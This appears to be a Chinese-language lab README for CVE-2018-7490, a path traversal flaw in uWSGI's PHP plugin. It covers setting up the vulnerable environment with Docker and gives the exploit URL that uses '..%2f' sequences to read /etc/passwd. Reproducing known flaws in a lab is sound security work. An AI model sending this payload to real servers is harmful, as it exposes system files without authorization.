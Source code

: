 # uWSGI PHP目录穿越漏洞（CVE-2018-7490）

uWSGI是一款Web应用程序服务器，它实现了WSGI、uwsgi和http等协议，并支持通过插件来运行各种语言。

uWSGI 2.0.17之前的PHP插件，没有正确的处理`DOCUMENT_ROOT`检测，导致用户可以通过`..%2f`来跨越目录，读取或运行`DOCUMENT_ROOT`目录以外的文件。

## 漏洞环境

运行存在漏洞的uWSGI服务器：

```
docker compose up -d
```

运行完成后，访问`http://your-ip:8080/`即可看到phpinfo信息，说明uwsgi-php服务器已成功运行。

## 漏洞复现

访问`http://your-ip:8080/..%2f..%2f..%2f..%2f..%2fetc/passwd`，成功读取文件：

![](1.png)

